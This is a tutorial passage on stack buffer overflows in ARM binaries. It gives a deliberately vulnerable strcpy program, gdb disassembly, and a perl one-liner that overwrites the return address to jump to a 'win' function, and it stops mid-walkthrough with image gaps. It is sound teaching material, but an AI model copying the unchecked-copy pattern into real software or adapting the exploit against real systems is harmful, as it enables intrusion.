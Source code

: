 ## ARM
The ARM stack
Let’s begin by taking a look at how the stack  is handled in ARM. The stack in ARM architecture is similar to the stack  in Intel x86. However, there are some key differences we should take  note of.
We will keep the following two points in mind while working through the next sections.

1. Function parameters are passed using registers r0-r3. Any additional parameters are pushed onto the stack.
2. The return address to the previous function can either be pushed onto the stack or stored in the link register (lr).



Buffer Overflows on ARM
Now  that we have briefly reviewed the stack and how functions are called in  the ARM architecture, we will begin experimenting with buffer  overflows.
For our first example of buffer overflow, we’ll be  examining a type of vulnerable application commonly found in intro stack  smashing challenges. Exploitation of this code will more or less follow  the same techniques used in Intel x86 exploitation.
                                
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win(){
    printf("You win!\n");
    exit(0);
}

int main(int argc, char** argv){
    char buf[10];
    strcpy( buf, argv[1] );
    return 0;
}


In  this basic example program, we can see that the main function allocates  a char buffer of length 10, copies the first command line argument into  the buffer, and then exits. However, one key vulnerability worth noting  in this application is the use of strcpy. The function “strcpy" is  inherently dangerous, as it performs no bounds checking, and will read  in a string until a null byte is found. We can use this vulnerability to  overflow the space allocated on the stack for “buf”, and modify  additional data on the stack. Let’s start this application and examine  the stack using a valid input
(gdb) disassemble main
Dump of assembler code for function main:
   0x00010498 <+0>:    push    {r11, lr}
   0x0001049c <+4>:    add    r11, sp, #4
   0x000104a0 <+8>:    sub    sp, sp, #24
   0x000104a4 <+12>:    str    r0, [r11, #-24]
   0x000104a8 <+16>:    str    r1, [r11, #-28]
   0x000104ac <+20>:    ldr    r3, [r11, #-28]
   0x000104b0 <+24>:    add    r3, r3, #4
   0x000104b4 <+28>:    ldr    r3, [r3]
   0x000104b8 <+32>:    sub    r2, r11, #16
   0x000104bc <+36>:    mov    r0, r2
   0x000104c0 <+40>:    mov    r1, r3
   0x000104c4 <+44>:    bl    0x1030c
   0x000104c8 <+48>:    mov    r3, #0
   0x000104cc <+52>:    mov    r0, r3
   0x000104d0 <+56>:    sub    sp, r11, #4
   0x000104d4 <+60>:    pop    {r11, pc}
End of assembler dump.
(gdb)
We’ll set a breakpoint right after the strcpy call, and examine the stack.
                                                                                                                        Let’s consider the diagram of the memory layout here.
                                                                                                                        Now  if we leverage the ability to write as much data to memory using the  strcpy function, let’s construct the stack layout after the call to  strcpy.
                                                                                                                        ow that we have considered the stack layout, let’s test our hypothesis in gdb.
                                                                                                                        We  can see that we have effectively written over the return address stored  on the stack, giving us a segfault when trying to direct flow to  0x43434342. This error also confirms the offset of the return address,  allowing us to leverage this vulnerability.
 
For this example,  we’ll simply redirect control to the “win” function of our application.  Let’s disassemble this function and find the address of the first  instruction.
                                                                                                                        Now that we have our instruction, we should be able to craft our exploit as follows.
                                                                                                                        $ ./vuln1 $(perl -e 'print "AAAAAAAAAAAABBBB\x7c\x04\x01";')
                                                                                                                        Success!  We have successfully redirected the flow to the “win” function. Let’s  examine this in gdb to see how this redirection worked.
 
We’ll begin by setting a breakpoint right before strcpy is called. 


